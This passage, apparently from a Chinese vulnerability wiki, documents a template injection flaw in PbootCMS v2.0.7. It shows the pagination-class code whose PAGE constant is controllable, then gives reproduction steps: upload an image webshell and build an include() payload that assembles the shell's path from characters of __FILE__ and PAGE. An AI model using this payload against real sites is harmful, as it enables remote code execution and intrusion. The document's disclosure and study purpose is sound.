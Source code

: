             // 获取当前页面
            $this->page = $this->page();

            // 定义相关常量，用于方便模板引擎解析序号等计算和调用
            define('ROWTOTAL', $this->rowTotal);
            define('PAGECOUNT', $this->pageCount);
            define('PAGE', $this->page);
            define('PAGESIZE', $this->pageSize);

            // 注入分页模板变量
            $this->assign($morePageStr);

            // 返回限制语句
            return ($this->page - 1) * $this->pageSize + ($this->start - 1) . ",$this->pageSize";
        } 
      // 当前页码容错处理
        private function page(){
            $page = get('page', 'int') ?: $this->page;
            if (is_numeric($page) && $page > 1) {
                if ($page > $this->pageCount && $this->pageCount) {
                    return $this->pageCount;
                } else {
                    return $page;
                }
            } else {
                return 1;
            }
        }
      ...
    ?>

这里是该程序的一个分页类，可以看到里面有一个叫`PAGE`的常量，且该常量可控。

那么就寻找调用了这个分页类的地方传入`page`就好。

例如：`http://www.0-sec.org/?keyword=123&page=0123456789`

![](/Users/aresx/Documents/VulWiki/.resource/PbootCMSv2.0.7模板注入/media/rId31.png)

且该常量为string类型。

至此，路径中需要的字符都构造出来了，只需要用`.`连接即可。

### 漏洞复现

1.  上传图片马

![](/Users/aresx/Documents/VulWiki/.resource/PbootCMSv2.0.7模板注入/media/rId33.png)

1.  得到路径`static/upload/image/20200417/1587111957160139.png`

2.  根据路径构造payload

-   `include(s.tatic.array(__FILE__)[0][0].upload.array(__FILE__)[0][0].image.array(__FILE__)[0][0].array(PAGE)[0][2].array(PAGE)[0][0].array(PAGE)[0][2].array(PAGE)[0][0].array(PAGE)[0][0].array(PAGE)[0][4].array(PAGE)[0][1].array(PAGE)[0][7].(马赛克).png)`
